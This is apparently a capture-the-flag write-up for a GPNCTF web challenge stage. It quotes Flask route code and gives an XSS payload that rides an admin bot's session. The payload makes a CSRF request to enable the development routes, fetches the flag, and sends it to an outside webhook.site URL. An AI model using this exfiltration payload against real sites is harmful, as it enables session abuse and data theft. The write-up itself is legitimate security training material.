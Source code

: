 ## Initial Reconnaissance: Finding the Flag's Location
The `server/main.py` source code indicates that `FLAG_STAGE_4` can be extracted by going to the `/development` endpoint.
```python
@app.route('/development', methods=['GET'])
@login_required
@moderator_required
@development_routes_required
def development():
    return FLAG_STAGE_4, 200
```

We already have moderator privileges and need to pass `@development_routes_required`
```python
@app.route('/settings', methods=['POST'])
@login_required
@admin_required
def settings():
    show_dev_routes = request.json.get('show_development_routes', False)
    global SHOW_DEVELOPMENT_ROUTES
    SHOW_DEVELOPMENT_ROUTES = show_dev_routes
    flash('Settings updated', 'success')
    return "Settings updated", 200
```
## XSS and CSRF
Which can be done using XSS and bot's admin privileges (like in `intro web 3`).
Let's write the payload:
```html
<script>
    async function getFlag4() {
        try {
            await fetch('/settings', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({show_development_routes: true})
            });

            const response = await fetch('/development');
            const flag4 = await response.text();

            fetch('https://webhook.site/ae28ff10-cd3d-4879-a457-4a9ef68b0362', {
                method: 'POST',
                mode: 'no-cors',
                body: 'SUCCESS! Flag 4: ' + flag4
            });

        } catch (error) {
            fetch('https://webhook.site/ae28ff10-cd3d-4879-a457-4a9ef68b0362', {
                method: 'POST',
                mode: 'no-cors',
                body: 'ERROR: ' + error.toString()
            });
        }
    }
  
    getFlag4();
</script>
```

Listener receives: `SUCCESS! Flag 4: GPNCTF{some_flag}`


